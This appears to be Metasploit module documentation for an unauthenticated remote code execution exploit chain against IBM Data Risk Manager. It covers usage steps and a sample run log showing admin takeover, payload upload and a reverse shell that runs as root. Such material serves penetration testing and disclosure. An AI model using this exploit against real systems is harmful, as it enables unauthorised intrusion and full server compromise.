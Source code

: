 ## Vulnerable Application

IBM Data Risk Manager (IDRM) contains three vulnerabilities that can be chained by an unauthenticated attacker to achieve remote code execution as root.
The first is an unauthenticated bypass, followed by a command injection as the server user, and finally abuse of an insecure default password.
This module exploits all three vulnerabilities, giving the attacker a root shell.
At the time of disclosure, this is a 0day. Versions 2.0.3 and below are confirmed to be affected, and the latest 2.0.6 is most likely affected too.


### Vulnerability information
For more information about the vulnerability check the advisory at:
https://github.com/pedrib/PoC/blob/master/advisories/IBM/ibm\_drm/ibm\_drm\_rce.md

### Setup

The application is available to download as a Linux virtual appliance from IBM's website. You need to have a valid IBM contract to be able to do so.

## Verification Steps

Module defaults work very well, you should just need to set `RHOSTS` and `LHOST`.

## Scenarios


## Scenarios

A successful exploit will look like this:


```
msf5 exploit(linux/http/ibm_drm_unauth_rce) > run

[*] Started reverse TCP handler on 10.9.8.1:4444
[+] 10.9.8.213:8443 - Successfully "stickied" our session ID JQElTQxh
[+] 10.9.8.213:8443 - We have obtained a new admin password 28010e88-6ffb-46e9-90d6-2ded732120d1
[+] 10.9.8.213:8443 - ... and are authenticated as an admin!
[*] 10.9.8.213:8443 - Detected IBM Data Risk Manager version 2.0.2 or above
[+] 10.9.8.213:8443 - We have uploaded our payload...
[+] 10.9.8.213:8443 - and our nmap script file!
[+] 10.9.8.213:8443 - Bearer token 1b78100c-cf42-47fd-b64d-d36c07f1f934 obtained, wait for the final step where we invoke nmap...
[+] 10.9.8.213:8443 - Shell incoming!
[*] Command shell session 2 opened (10.9.8.1:4444 -> 10.9.8.213:57136) at 2020-04-21 15:46:29 +0700

whoami
root
uname -a
Linux idrm-server.ibm.com 3.10.0-862.3.2.el7.x86_64 #1 SMP Tue May 15 18:22:15 EDT 2018 x86_64 x86_64 x86_64 GNU/Linux
```
